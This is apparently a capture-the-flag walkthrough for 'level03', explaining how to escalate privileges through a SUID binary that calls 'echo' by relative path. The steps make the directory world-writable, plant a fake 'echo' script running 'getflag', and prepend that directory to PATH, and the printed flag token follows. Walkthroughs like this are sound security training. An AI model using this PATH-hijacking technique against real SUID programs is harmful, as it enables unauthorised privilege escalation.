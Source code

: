## Walkthrough :  
- This level have an executable with SUID FLAG , and uses environment variable to execute system command usign *system* function  
- So i thought of creating shell file in the name echo command and add the path to environment variable that can be called when the program runs.
- creating a file with name echo, contain getflag command 
```
chmod 777 . && echo "getflag" >> echo && chmod 777 echo
```
- add the path to the begining of the PATH environment variable.
```
export PATH=/home/user/level03/:$PATH
```
- Execute the program **./level03** and got the flag
```
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

## Ressources
[Exploiting SUID programs with relative paths](https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e)